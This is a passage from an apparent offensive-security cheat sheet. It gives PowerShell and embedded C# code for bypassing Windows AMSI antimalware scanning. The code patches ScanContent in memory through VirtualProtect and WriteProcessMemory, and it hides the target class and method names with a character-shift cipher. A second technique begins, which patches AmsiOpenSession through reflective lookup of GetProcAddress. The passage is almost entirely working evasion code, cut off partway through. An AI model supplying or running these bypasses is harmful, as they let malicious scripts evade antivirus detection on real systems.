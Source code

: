 ```PowerShell
            //Restore the original memory protection settings
            if (!VirtualProtect(originalSite, (UIntPtr)patch.Length, oldprotect, out oldprotect)) {
                throw new Win32Exception();
            }
        }
        private static string Transform(string input) {
            StringBuilder builder = new StringBuilder(input.Length + 1);
            foreach(char c in input) {
                char m = (char)((int)c - 1);
                builder.Append(m);
            }
            return builder.ToString();
        }
        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern bool FlushInstructionCache(IntPtr hProcess, IntPtr lpBaseAddress, UIntPtr dwSize);
        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern IntPtr GetCurrentProcess();
        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);
        private static readonly string CLASS = Methods.Transform("Tztufn/Nbobhfnfou/Bvupnbujpo/BntjVujmt");
        private static readonly string METHOD = Methods.Transform("TdboDpoufou");
    }
}
"@
Add-Type $code
[Editor.Methods]::Patch()
```
* Reference
    * [New AMSI Bypass Using CLR Hooking](https://practicalsecurityanalytics.com/new-amsi-bypass-using-clr-hooking/)

### Patching AMSI AmsiOpenSession

```PowerShell
function lookFuncAddr{
    Param($moduleName, $functionName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
    Where-Object {$_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll')}).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object{If($_.Name -eq 'GetProcAddress') {$tmp+=$_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType{
    Param(
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )

    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType',
    'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
```